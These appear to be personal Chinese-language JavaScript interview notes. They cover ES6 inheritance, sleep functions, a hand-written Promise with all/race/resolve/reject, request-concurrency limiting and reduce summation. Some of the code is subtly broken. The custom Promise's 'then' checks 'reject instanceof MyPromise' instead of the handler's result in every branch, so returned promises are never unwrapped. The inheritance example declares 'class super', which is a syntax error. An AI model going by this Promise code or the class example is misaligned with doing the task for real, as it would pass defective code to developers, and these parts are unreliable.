#### 2 ES6继承

> 1. `extends`实现原型继承
>
>    ```js
>    class A extends B{}
>    
>    Student.__proto__= Person
>    Student.prototype.__proto__ = Person.prototype;
>    ```
>
> 2. `super`实现父类实例继承
>
>    ⭐ 子类必须在constructor方法中调用super方法
>
>    ​       是继承父类的this对象，然后对其进行加工，如果不调用super方法，子类就得不到this对象
>
>    ````js
>     1 class Colorpoint extends Point {
>     2     constructor(x,y,color){
>     3         super(x,y); //调用父类的constructor(x,y)
>     4         this.color = color
>     5     }
>     6	}
>    ````
>
>    

示范

````js
class super{
    constructor(name,color){
        this.name=name;
        this.color=["red","blue","green"];
    }
    sayName(){
        alert(this.name);
    }
}
````

### 7 sleep函数

> sleep函数作用是让线程休眠，等到指定时间在重新唤起。js单线程是`不能实现休眠的`

1. 无线循环， 直至时间结束，虽然毫无意义，但是实现sleep, 但极消耗CPU

   ```js
   function sleep(time) {
     let t = Date.now();
     while (Date.now() - t < time) {
     };
   }
   ```

2. 通过回调，但是其作为另外的任务，并不对杜塞这个进程的其他代码继续执行

   故使用 async await吧， 虽然本质也是Promise， 将后续杜塞的代码都应是在Promise的回调中吧!

   ```js
   function sleep(time) {
       return new Promise((resolve) => {
       	setTimeout(resolve, time)
       })
   }
   sleep(1000).then( () => {})
   ```

   

### 8 实现promise与其附属函数

#### Promise

https://segmentfault.com/a/1190000023690122?utm_source=sf-similar-article

````js

const PENDDING = 'pendding';
const FULFILLED = 'fulfilled';
const REJECTED = 'rejected';
// 定义MyPromise
function MyPromise(executor) {
  const self = this;
  self.status = PENDDING;
  self.data = undefined;
  self.callbacks = [];

  function resolve(value) {
    if (self.status !== PENDDING) return;
    self.status = FULFILLED;
    self.data = value;
    // 立即执行异步回调函数，即他肯定是在then加入事件后再去执行他们，也考虑了同步问题
    setTimeout(() => {
      self.callbacks.forEach(callbacksObj => {
        callbacksObj.onResolved(value);
      })
    })
  }

  function reject(reason) {
    if (self.status !== PENDDING) return;
    self.status = REJECTED;
    self.data = reason;
    setTimeout(() => {
      self.callbacks.forEach(callbacksObj => {
        callbacksObj.onRejected(reason);
      })
    })
  }
  executor(resolve, reject)
}

// MyPromise原型链上存在then方法
MyPromise.prototype.then = function (onResolved, onRejected) {
  const self = this;
  return new MyPromise((resolve, reject) => { // 每次都返回一个新的Promise对象
    // 首先判断当前状态
    if (self.status === FULFILLED) {
      /* 
          1、返回的Promise的结果是由onResolved/onrejected决定的
          2、返回的是Promise对象 (根据执结果决定Promise的返回结果)
          3、返回的不是Promise对象 (该值就是Promise的返回结果)
          4、抛出异常 异常的值为返回的结果
      */
      setTimeout(() => {
        try {
          const result = onResolved(self.data);
          if (reject instanceof MyPromise) {
            result.then(value => {
              resolve(value);
            }, reason => {
              reject(reason);
            })
          } else {
            resolve(result);
          }

        } catch (error) {
          reject(error);
        }
      });

    }
    if (self.status === REJECTED) {
      setTimeout(() => {
        try {
          const result = onRejected(self.data);
          if (reject instanceof MyPromise) {
            result.then(value => {
              resolve(value);
            }, reason => {
              reject(reason);
            })
          } else {
            resolve(result);
          }

        } catch (error) {
          reject(error);
        }
      });

    }
    if (self.status === PENDDING) {
      self.callbacks.push({
        onResolved() {
          try {
            const result = onResolved(self.data);
            if (reject instanceof MyPromise) {
              result.then(value => {
                resolve(value);
              }, reason => {
                reject(reason);
              })
            } else {
              resolve(result);
            }

          } catch (error) {
            reject(error);
          }
        },
        onRejected() {
          try {
            const result = onRejected(self.data);
            if (reject instanceof MyPromise) {
              result.then(value => {
                resolve(value);
              }, reason => {
                reject(reason);
              })
            } else {
              resolve(result);
            }

          } catch (error) {
            reject(error);
          }
        }
      })
    }
  })
}
````

#### Promise.all / Promise.race

````js
//MyPromise实例对象上存在all方法
MyPromise.all = function (promises) {
    let promisesCount = 0
    let values = new Array(promises.length);
    return new MyPromise((resolve, reject) => {
      promises.forEach((promise, index) => {
        MyPromise.resolve(promise).then(value => {
          promisesCount++;
          values[index] = value;
          if (promisesCount === promises.length) {
            resolve(values);
          }
        }, reason => {
          reject(reason);
        })
      })
    })
}

//MyPromise实例对象上存在race方法
  MyPromise.race = function (promises) {
    return new MyPromise((resolve, reject) => {
      promises.forEach(promise => {
        MyPromise.resolve(promise).then(value => {
          resolve(value);
        }, reason => {
          reject(reason)
        })
      })
    })
  }
````

####   Promise.resolve  / Promise.reject

````js

MyPromise.resolve = function (value) {
    if (value instanceof MyPromise) return value;
    // 返回一个resolved状态的Promise对象
    return new MyPromise(resolve => resolve(value))             
}

//MyPromise实例对象上存在reject方法
MyPromise.reject = function (reason) {
    return new MyPromise((resolve,reject) => reject(reason));  // 返回一个reject状态Promise对象
}
````

### 9 并发请求的限制

> 请实现如下函数，
>
> 可以批量请求数据，所有 URL 地址在`urls`参数中，同时可以通过`max`参数控制请求的并发度，
>
> 当所有请求执行结束后需要执行`callback`回调函数，请求函数用 fetch 即可(不做请求失败处理)。


#### 思路一

- 利用async + await 与 promise.all 来进行， 每次以max来进行请求

````js
// 根据max将一维数组切成二维数组
const group = (list = [], max = 0) => {
  if (!list.length) {
    return list
  }
  let results = []
  for (let i = 0, len = list.length; i < len; i += max) {
    results.push(list.slice(i, i + max))
  }
  return results
}

const requestHandler = async (
  groupedUrl = [],
  callback = () => { }
) => {
  if (!groupedUrl.length) {
    callback()
    return groupedUrl
  }
  const newGroupedUrl = groupedUrl.map(fn => fn())
  const resultsMapper = (results) => results.map(callback)
  const data = await Promise.allSettled(newGroupedUrl).then(resultsMapper)
  return data;
}

// 单纯的请求入口
const sendRequest = async (
  urls = [],
  max = 0,
  callback = () => { }
) => {
  if (!urls.length) {
    return urls
  }
  const groupedUrls = group(urls, max)
  const results = []
  console.log('start !')
  for (let groupedUrl of groupedUrls) {
    try {
      const result = await requestHandler(groupedUrl, callback)
      results.push(result)
      console.log('go')
    } catch { }
  }
  console.log('done !')
  return results
}

// 测试代码
const p1 = () => new Promise((resolve, reject) => setTimeout(reject, 1000, 'p1'))
const p2 = () => Promise.resolve(2)
const p3 = () => new Promise((resolve, reject) => setTimeout(resolve, 2000, 'p3'))
const p4 = () => Promise.resolve(4)
const p5 = () => new Promise((resolve, reject) => setTimeout(reject, 2000, 'p5'))
const p6 = () => Promise.resolve(6)
const p7 = () => new Promise((resolve, reject) => setTimeout(resolve, 1000, 'p7'))
const p8 = () => Promise.resolve(8)
const p9 = () => new Promise((resolve, reject) => setTimeout(reject, 1000, 'p9'))
const p10 = () => Promise.resolve(10)
const p11 = () => new Promise((resolve, reject) => setTimeout(resolve, 2000, 'p10'))
const p12 = () => Promise.resolve(12)
const p13 = () => new Promise((resolve, reject) => setTimeout(reject, 1000, 'p11'))
const p14 = () => Promise.resolve(14)

const ps = [p1, p2, p3, p4, p5, p6, p7, p8, p9, p10, p11, p12, p13, p14]
sendRequest(ps, 3, ({ reason, value }) => {
  console.log(reason || value)
})

````

#### 思路二

```js
function requestData(promiseList = [], max = 1, callback) {
  let requestArr = [],
    i = 0;
  // 我们将请求的promise一项一项丢入到其中（递归实现），执行完毕就删除掉
  // requestArr到达上限那么我们等待请求执行，有空位在继续添加
  // 
  toFetch().then(() => Promise.all(requestArr)).then(() => {
    callback('进程结束！');
  })

  function toFetch() {
    // 递归结束
    if (i === promiseList.length) return Promise.resolve();
    let _item = promiseList[i++]();
    console.log('进程进行中');
    requestArr.push(_item);
    // 宏任务执行结束后, 微任务执行，删除对应的那个微任务
    _item.then(() => { 
      requestArr.splice(requestArr.indexOf(_item), 1)
     });
    let result = Promise.resolve();
    // 是否需要进行并发处理?
    if (requestArr.length === max) {
      result = Promise.race(requestArr);
    }
    // 若有空位继续， 若无空位等待 => then
    return result.then(() => toFetch());
  }

}


// 测试代码
const p1 = () => new Promise((resolve, reject) => setTimeout(resolve, 1000, 'p1'))
const p2 = () => new Promise((resolve, reject) => setTimeout(resolve, 1000, 'p2'))
const p3 = () => new Promise((resolve, reject) => setTimeout(resolve, 1000, 'p3'))
const p4 = () => new Promise((resolve, reject) => setTimeout(resolve, 1000, 'p4'))
const p5 = () => new Promise((resolve, reject) => setTimeout(resolve, 1000, 'p5'))
const p6 = () => new Promise((resolve, reject) => setTimeout(resolve, 1000, 'p6'))
const p7 = () => new Promise((resolve, reject) => setTimeout(resolve, 1000, 'p7'))

const ps = [p1, p2, p3, p4, p5, p6, p7]

requestData(ps, 4, (reason, value) => {
  console.log(reason || value)
})


```

### 使用reduce实现累加

- 答案

  ⭐ 上次执行函数时的结果保存在了pre中!

  ````js
  // 4.使用reduce方法
  var numbers = [1, 2, 3, 4]
  var total = numbers.reduce(function (pre, cur) {
      return pre + cur
  })
  alert(total)
  ````

- s


